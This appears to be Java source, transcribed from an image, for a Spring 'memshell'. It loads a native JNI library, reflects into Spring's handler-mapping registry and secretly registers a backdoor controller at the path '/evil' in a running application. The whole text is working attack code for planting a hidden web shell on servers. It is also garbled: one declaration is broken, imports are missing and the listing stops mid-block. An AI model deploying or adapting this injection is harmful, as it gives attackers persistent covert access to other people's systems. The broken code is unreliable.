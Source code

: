 ```java
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.Map;

public class SpringControllerJNIMemshell {

    final static String jniCodes = "";getJNILibFile

    static {
        String inject_uri = "/evil";
        try{
            System.load(getJNILibFile(jniCodes));
            System.out.println("Controller Injecting");
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                    currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);

            Class<?> c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");


            Field field = null;
            try {
                field = c.getDeclaredField("urlLookup");
                field.setAccessible(true);
            }catch (NoSuchFieldException e){
                field = c.getDeclaredField("pathLookup");
                field.setAccessible(true);
            }

            Map<String, Object> urlLookup = (Map<String, Object>) field.get(mappingRegistry);
            for (String urlPath : urlLookup.keySet()) {
                if (inject_uri.equals(urlPath)) {
                    throw new RuntimeException();
                }
            }

            Class <?> evilClass = SpringControllerJNIMemshell.class;

            Method method2 = evilClass.getMethod("index");

            RequestMappingInfo.BuilderConfiguration option = new RequestMappingInfo.BuilderConfiguration();
            option.setPatternParser(new PathPatternParser());

            RequestMappingInfo info = RequestMappingInfo.paths(inject_uri).options(option).build();

            // 将该controller注册到Spring容器
            mappingHandlerMapping.registerMapping(info, evilClass.newInstance(), method2);
            System.out.println("Controller Injected");
        }catch (Exception e){
            e.printStackTrace();
```